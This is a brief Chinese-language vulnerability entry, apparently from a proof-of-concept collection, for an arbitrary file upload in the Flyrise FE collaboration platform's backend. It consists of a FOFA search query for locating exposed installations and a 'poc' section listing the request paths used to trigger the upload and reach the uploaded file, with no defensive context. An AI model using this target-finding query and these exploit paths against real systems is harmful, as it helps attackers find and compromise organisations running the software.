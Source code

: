 # 飞企互联 FE 业务协作平台 后台任意文件上传

    ## fofa

```
body="js39/flyrise.stopBackspace.js" || body="src=\"/js39/flyrise.dialog.js" || body="src=\"/js39/external/jquery"
```

## poc

```
/fe.do?SYS.ID=891-004-000&SYS.ACTION=init

/FEbrithdaycard/202306180851357246.jpeg
```

